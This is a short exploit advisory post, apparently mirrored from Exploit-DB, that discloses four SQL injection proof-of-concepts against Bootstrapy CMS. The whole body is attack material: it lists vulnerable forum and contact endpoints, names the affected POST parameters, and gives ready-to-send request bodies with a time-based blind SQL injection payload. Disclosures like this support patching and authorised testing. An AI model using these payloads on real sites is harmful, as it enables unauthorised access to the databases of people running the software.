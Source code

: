 ```yaml
---
layout:     post
title:      "Bootstrapy CMS - Multiple SQL Injection"
date:       2019-03-21 12:35
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Bootstrapy CMS - Multiple SQL Injection
# Date: 21.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: http://bootstrapy.com
# Demo Site: http://bootstrapy.net/demo/
# Version: Lastest
# Tested on: Kali Linux
# CVE: N/A

----- PoC 1: SQLi -----

Request: http://localhost/[PATH]/modules/forums/forum-thread.php
Vulnerable Parameter: thread_id (POST)
Attack Patten:
search=&thread_id=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z

----- PoC 2: SQLi -----

Request: http://localhost/[PATH]/modules/pages/contact-submit.php
Vulnerable Parameter: subject (POST)
Attack Pattern:
email=sample%40email.tst&message=20&name=wUmrLVWz&subject=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&submit=

----- PoC 3 - SQLi -----

Request: http://localhost/[PATH]/modules/forums/post-new-submit.php
Vulnerable Parameter: post-id
Attack Pattern:
body=1&post-id=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&quote=1&submit=&thread-id=1

----- PoC 4 - SQLi -----

Request: http://localhost/[PATH]/modules/forums/post-new-submit.php
Vulnerable Parameter: thread-id (POST)
Attack Pattern:
quote=0&reply=1&submit=&thread-id=0'XOR(if(now()=sysdate()%2Csleep(0)%2C0))XOR'Z
